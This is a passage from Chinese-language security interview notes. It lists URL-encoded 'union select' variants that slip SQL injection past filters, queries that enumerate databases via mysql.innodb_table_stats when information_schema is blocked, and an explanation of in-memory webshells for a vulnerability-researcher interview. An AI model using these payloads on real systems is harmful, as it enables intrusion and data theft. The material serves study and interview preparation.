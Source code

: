 ```sql
 
%23?%0auion%20?%23?%0aselect
 
%23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect
 
%55nion %53eLEct
 
u%6eion se%6cect
 
unio%6e %73elect
 
unio%6e%20%64istinc%74%20%73elect
 
uni%6fn distinct%52OW s%65lect
 
%75%6e%6f%69%6e %61%6c%6c %73%65%6c%65%63%7
```

### 9.information被ban

Mysql 开发团队在 5.5.x 版本后将 innodb 作为数据库的默认引擎。 Mysql>5.6.x mysql 库里增添了两个新表，`innodb_index_stats `和 `innodb_table_stats` 这两个表是数据库自动设置的。存储数据库和对应的数据表。



```sql
查库名
select database_name from mysql.innodb_table_stats group by database_name;

查表名
select table_name from mysql.innodb_table_stats where database_name=database();
```



# 0x2 深信服-漏洞研究员实习

## Q：内存马有没有了解过（未完成）

>   [内存马](https://blog.gm7.org/%E4%B8%AA%E4%BA%BA%E7%9F%A5%E8%AF%86%E5%BA%93/02.%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/01.Java%E5%AE%89%E5%85%A8/05.%E5%86%85%E5%AD%98%E9%A9%AC/01.Tomcat%E5%86%85%E5%AD%98%E9%A9%AC.html)
>
>   [内存马](https://mp.weixin.qq.com/s/IT8rftwtbNxJeVf04gr-pQ)
>
>   [基于tomcat的内存 Webshell 无文件攻击技术](https://xz.aliyun.com/t/7388)

webshell变迁：

web服务器管理页面=> 大马=>小马拉大马=>一句话木马=>加密一句话木马=>加密内存马

>   Webshell内存马，是在内存中写入恶意后门和木马并执行，达到远程控制Web服务器的一类内存马，其瞄准了企业的对外窗口：网站、应用。但传统的Webshell都是基于文件类型的，黑客可以利用上传工具或网站漏洞植入木马，区别在于Webshell内存马是无文件马，利用中间件的进程执行某些恶意代码，不会有文件落地，给检测带来巨大难度。
